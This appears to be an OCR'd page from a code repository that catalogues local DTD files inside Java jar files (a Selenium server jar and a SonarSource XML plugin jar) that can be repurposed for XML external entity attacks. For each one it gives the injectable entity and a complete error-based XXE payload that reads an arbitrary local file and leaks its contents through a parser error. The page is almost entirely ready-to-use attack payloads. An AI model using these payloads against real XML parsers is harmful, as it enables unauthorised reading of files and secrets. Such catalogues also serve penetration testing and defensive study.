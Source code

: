  --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/seleniumhq/selenium/selenium-server-standalone/2.46.0/selenium-server-standalone-2.46.0.jar!/org/seleniumhq/jetty7/xml/configure_7_6.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/seleniumhq/selenium/selenium-server-standalone/2.46.0/selenium-server-standalone-2.46.0.jar!/org/seleniumhq/jetty7/xml/configure_7_6.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/sonarsource/xml/sonar-xml-plugin/1.4.3.1027/sonar-xml-plugin-1.4.3.1027.jar!/org/sonar/plugins/xml/dtd/xhtml1/xhtml1-frameset.dtd`

**Injectable entity:** `%HTMLlat1`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/sonarsource/xml/sonar-xml-plugin/1.4.3.1027/sonar-xml-plugin-1.4.3.1027.jar!/org/sonar/plugins/xml/dtd/xhtml1/xhtml1-frameset.dtd">

    <!ENTITY % HTMLlat1 '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 
